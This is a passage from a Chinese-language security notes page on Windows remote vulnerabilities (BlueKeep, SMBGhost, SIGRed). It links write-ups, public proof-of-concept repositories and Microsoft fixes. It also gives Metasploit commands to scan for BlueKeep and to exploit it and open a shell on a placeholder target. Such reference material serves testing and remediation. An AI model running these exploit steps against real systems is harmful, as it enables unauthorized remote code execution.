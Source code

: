 - 修复工具
    - ["CVE-2019-0708"漏洞检测修复工具](https://www.qianxin.com/other/CVE-2019-0708)
    - https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708

- MSF 模块
    ```bash
    # 发现,检测
    use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
    set rhosts [ip]
    run
    ```
    ```bash
    # 利用
    use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
    set target [1-7]
    set rhosts [ip]
    show options
    exploit
    shell
    python
    ```

**SMBGhost && CVE-2020-0796 微软 SMBv3 协议远程代码执行漏洞**
- 简介

    2020年3月11日，思科 Talos 发布了一个威胁等级被标记为 Critical 的 SMB 服务远程代码执行漏洞（CVE-2020-0796）综述，攻击者可以利用此漏洞远程无需用户验证通过发送构造特殊的恶意数据导致在目标系统上执行恶意代码，从而获取机器的完全控制。

    本次漏洞存在于微软 SMBv3.0 协议中，该漏洞是由 SMBv3 处理恶意压缩数据包时进入错误流程造成的。攻击者利用该漏洞无须权限即可实现远程代码执行，受黑客攻击的目标系统只需开机在线即可能被入侵。

- 相关文章
    - [Exploiting SMBGhost (CVE-2020-0796) for a Local Privilege Escalation: Writeup + POC](https://blog.zecops.com/vulnerabilities/exploiting-smbghost-cve-2020-0796-for-a-local-privilege-escalation-writeup-and-poc/)
    - [漏洞复现|CVE-2020-0796(SMBv3远程代码执行)漏洞复现](https://mp.weixin.qq.com/s/EthmhuRDD5esScGcnHN_UA)
    - [漏洞复现｜CVE-2020-0796（永恒之黑）](https://mp.weixin.qq.com/s/mRHiIyPC4xQdOAsMjtWxrg)

- POC | Payload | exp
    - [ollypwn/SMBGhost](https://github.com/ollypwn/SMBGhost)
    - [chompie1337/SMBGhost_RCE_PoC](https://github.com/chompie1337/SMBGhost_RCE_PoC) - 远程利用代码
    - [eerykitty/CVE-2020-0796-PoC](https://github.com/eerykitty/CVE-2020-0796-PoC) - 蓝屏 POC
    - [danigargu/CVE-2020-0796](https://github.com/danigargu/CVE-2020-0796) - 本地提权 POC
    - [CVE-2020-0796：微软 SMBv3 协议RCE复现](https://mp.weixin.qq.com/s/hRGai3yyogNVpU1QwhcbfQ)

- 修复工具
    - https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0796

**CVE-2020-1350**
- 相关文章
    - [SIGRed - Resolving Your Way into Domain Admin: Exploiting a 17 Year-old Bug in Windows DNS Servers](https://research.checkpoint.com/2020/resolving-your-way-into-domain-admin-exploiting-a-17-year-old-bug-in-windows-dns-servers/)
    - [CVE-2020-1350漏洞深入剖析](https://bbs.pediy.com/thread-260712.htm?from=groupmessage)
